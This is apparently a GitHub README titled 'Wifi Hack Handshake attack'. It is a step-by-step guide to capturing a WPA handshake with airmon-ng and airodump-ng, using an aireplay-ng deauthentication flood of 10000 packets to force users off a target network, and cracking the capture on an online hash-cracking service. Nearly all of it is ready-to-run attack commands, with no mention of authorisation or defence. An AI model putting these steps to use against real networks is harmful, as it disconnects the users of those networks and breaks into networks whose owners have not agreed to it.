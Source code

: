 <h1 align="center">Wifi Hack Handshake attack</h1>

[![N|dc](https://i.hizliresim.com/3vwdudh.png)](https://discord.gg/5sYSzWQJ3Z)

<details> 
 <summary><strong>Contents (İçindekiler)</strong></summary>
 <p>

* Monitor - Managed mod
  - [mon & man](#monman)
* Airodump-ng
  - [Gathering information](#infonet)
* Aireplay-ng
  - [Attack/Handshake](#attack)
* Decrypt Handshake
  - [Dec. Handshake file](#decrypt)

<br>
</details>

# Wifi Hack

## Catch Handshake

### ([▲](#top)) Monitor & Manage <a name="monman"></a>
`Turning on monitor mode`, example usage:
- `airmon-ng start <interface>`
```
┌──(root💀kali)-[~]
└─# airmon-ng start wlan0
```
<a href="https://i.hizliresim.com/jr314du.png">Airmon</a>
<a href="https://i.hizliresim.com/74x8rav.png">iwconfig</a>

`Turning off monitor mode`, example usage:
- `airmon-ng stop <interface>`
```
┌──(root💀kali)-[~]
└─# airmon-ng stop wlan0
```

### ([▲](#top)) Gathering information about networks <a name="infonet"></a>

`start monitoring networks`, airodump-ng <interface> example usage:

```
┌──(root💀kali)-[~]
└─# airodump-ng wlan0mon
```
<a href="https://www.hizliresim.com/jemkzmg.png">Airodump</a>

```
BSSID = MAC Address
Power = PWR - Signal power
Data = the data we have
CH = Channel - What channel is it on
ENC = Encryption model
CIPHER = Decrypton model
ESSID = network name
Example airodump-ng usage:
```
- For the information gathering and deauthentication attack for the network to be attacked, we first need to enter the following line of code, example usage:
`airodump-ng --bssid <bssid> --channel <channel_number> --write <filename> <interface>`

```
┌──(root💀kali)-[~]
└─# airodump-ng --bssid 0A:1B:2C:3D:4E:5F --channel 5 --write handshake_file wlan0mon
```

### ([▲](#top)) Attack target <a name="attack"></a>

- Deauthentication attack, The product connected to wifi needs to be dropped from the network. Example usage:

`aireplay-ng --deauth <#packets> -a <target_MAC> -c <station> <interface>`

```
┌──(root💀kali)-[~]
└─# aireplay-ng --deauth 10000 -a 0A:1B:2C:3D:4E:5F -c 0A:1B:2C:3D:4E:5F wlan0mon
```
<a href="https://www.hizliresim.com/bfjo2y6.png">Aireplay</a>

NOTE: Our goal here is to remove the user connected to our target network from the network and reconnect, and to capture and decrypt the encrypted numbers that occur in the air when the user wants to reconnect to the network.

### ([▲](#top)) Decrypt Handshake <a name="decrypt"></a>

- Previously, we were able to crack handshake files with the aircrack-ng command, but these days could take weeks, with the resource I will give you, you can crack the handshakes you have captured without even having to keep your computer open :)

`https://hashes.com/en/decrypt/hash`





`Soon, the program written in python will come.`

You can support us by joining our community, thanks for reading. > https://discord.gg/5sYSzWQJ3Z